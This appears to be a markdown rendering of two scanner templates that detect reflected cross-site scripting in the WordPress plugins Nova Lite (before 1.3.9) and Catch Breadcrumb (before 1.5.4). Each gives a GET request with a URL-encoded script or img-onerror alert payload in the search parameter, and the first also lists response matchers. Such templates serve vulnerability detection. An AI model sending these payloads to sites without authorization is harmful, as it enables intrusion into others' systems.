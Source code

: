 # Nova Lite \< 1.3.9 - Cross-Site Scripting
## Description
- Nova Lite before 1.3.9 for WordPress is susceptible to reflected cross-site scripting via search.php.
- severity - medium
- tags - wordpress,xss,wp-plugin,wpscan,cve,cve2020,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/?s=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- words
    1. nova-lite
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Catch Breadcrumb \<1.5.4 - Cross-Site Scripting
## Description
- WordPress Catch Breadcrumb plugin before 1.5.4 contains a reflected cross-site scripting vulnerability via the s parameter (a search query). Also affected are 16 themes if the plugin is enabled: Alchemist and Alchemist PRO, Izabel and Izabel PRO, Chique and Chique PRO, Clean Enterprise and Clean Enterprise PRO, Bold Photography PRO, Intuitive PRO, Devotepress PRO, Clean Blocks PRO, Foodoholic PRO, Catch Mag PRO, Catch Wedding PRO, and Higher Education PRO.

- severity - medium
- tags - wordpress,xss,wp-plugin,wpscan,cve,cve2020
## Requests
- Method - GET
### URL
- {{BaseURL}}/?s=%3Cimg%20src%3Dx%20onerror%3Dalert%28123%29%3B%3E
### Matchers
